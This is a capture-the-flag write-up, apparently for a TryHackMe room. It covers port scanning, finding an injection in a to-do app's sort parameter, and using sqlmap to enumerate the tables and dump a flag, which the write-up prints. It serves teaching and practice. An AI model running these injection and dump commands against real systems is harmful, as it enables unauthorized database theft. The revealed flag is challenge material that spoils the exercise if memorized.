






## TL;DR

In this challenge we detect `Binary SQL Injection` and exploit it using `sqlmap` to retrieve the flag

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with rtsp.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 23:01:7c:3c:cb:d1:35:8f:7b:59:02:01:ff:99:2b:80 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVhLGCMxcvKdSsp9HFO121J1Kg0KilFEaMtQpnpYq3ine5tmvXKTDKz3ajqHIRS11DH7afUtPb9RIzk12fCcANwmXAAbGuVY1rAOyyTtj
IsqM+j6GD9E/ETJZ8b2afsr38WdrgRoU/SVqkJEu6Zywf7FuIi3fBJ3Vaxu/EKyxxqIZoRYztEOxLmLPA7QvwFSo0ut30cexq5SmMnLXXzoHH39eESIaKBj2op2Jpyhs6NYludn2l90mX45XZ
vVYO3mdccYxuBcSXVkkkx+Dr/hmo60hZ3HjnQmR2la5qhqSXbduhKGP78nLX9lEvClGM8SlAuxTIib89eZWynFsOG0OLm7jT6pD0LokkEHegfEIi76KV71RU8XsLlTRYt8vjTRkeyLrD6mqqd
iF6ntPWtKalziqWc7keYV/R9kLWMq0NzEg9J4s1bKHbiTMu0adUZ2GAE4kaZbJznX71J7YZ+dv0jEtFd+UKHXlvHH/n/qKpKA4dJmyFP/9muc1+UMFVegU=
|   256 b8:d6:80:d6:f3:36:06:72:93:9d:33:a6:e9:84:87:16 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCJybWpcbHIw+nyXCiTwVgRLswxdcvrvtwmu1x4ufr60CBLeDyw3fdRXJSAKnN8VRWxn/Lu
BIGZJqnkezDw60p0=
|   256 c7:96:a3:58:a3:b4:f7:b9:26:11:91:73:e0:b1:be:de (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE11WBWCb3QH3s0kVQHR2r3HHBeGMTVKbI4uHqGmMoTE
80/tcp open  rtsp    syn-ack ttl 61
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
```

Let's add `prioritise.thm` to our `/etc/hosts`.

### Detect SQL Injection and exploit it to get the flag

When viewing the root page, we can see this simple to do list app



We can notice the sort by:
```bash
http://prioritise.thm/?order=title
```



I tried to give something else, for example `title -- -`, and it worked. so, there is probably sql injection here:

 

I used sqlmap to find the vulnerability and exploit it:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3
```

Since it detected this uses `sqlite`, let's fetch tables:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 --tables
```



```bash
<current>                                      
[2 tables]                                     
+-------+                                      
| flag  |                                      
| todos |                                      
+-------+ 
```

Let's dump the flag table:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 -T flag --dump
```



we got the flag:
```bash
Database: <current>
Table: flag
[1 entry]
+----------------------------------------+
| flag                                   |
+----------------------------------------+
| flag{65f2f8cfd53d59422f3d7cc62cc8fdcd} |
+----------------------------------------+
```


